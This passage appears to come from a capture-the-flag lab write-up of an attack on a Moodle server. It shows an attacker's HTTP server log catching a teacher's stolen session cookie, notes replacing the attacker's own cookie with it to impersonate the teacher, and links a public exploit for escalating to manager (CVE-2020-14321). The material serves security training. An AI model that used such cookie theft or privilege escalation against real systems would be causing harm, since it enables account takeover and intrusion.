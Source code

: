Obtained teacher cookie and replaced the current one in order to impersonate him:

```python
┌──(kali㉿kali)-[/opt/enum]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.24 - - [10/May/2021 17:54:29] code 404, message File not found
10.10.14.24 - - [10/May/2021 17:54:29] "GET /log.php?q=MoodleSession=btd4thk6pomprao99q97bp850l HTTP/1.1" 404 -
10.10.10.234 - - [10/May/2021 17:54:43] code 404, message File not found
10.10.10.234 - - [10/May/2021 17:54:43] "GET /log.php?q=MoodleSession=bpdmaqp357m2126eligi131chh HTTP/1.1" 404 -
```

![Pasted image 20210510235931.png](../../zzz_res/attachments/Pasted_image_20210510235931.png)

## Moodle Privilege Escalation to Admin (CVE-2020-14321)

Course enrolments allowed privilege escalation from teacher role into manager role to RCE:

[https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321)

[CVE-2020-14321](https://player.vimeo.com/video/441698193?h=93f9bf0f35)

Escalated to Manager:

![Pasted image 20210511172323.png](../../zzz_res/attachments/Pasted_image_20210511172323.png)

![Pasted image 20210511172501.png](../../zzz_res/attachments/Pasted_image_20210511172501.png)
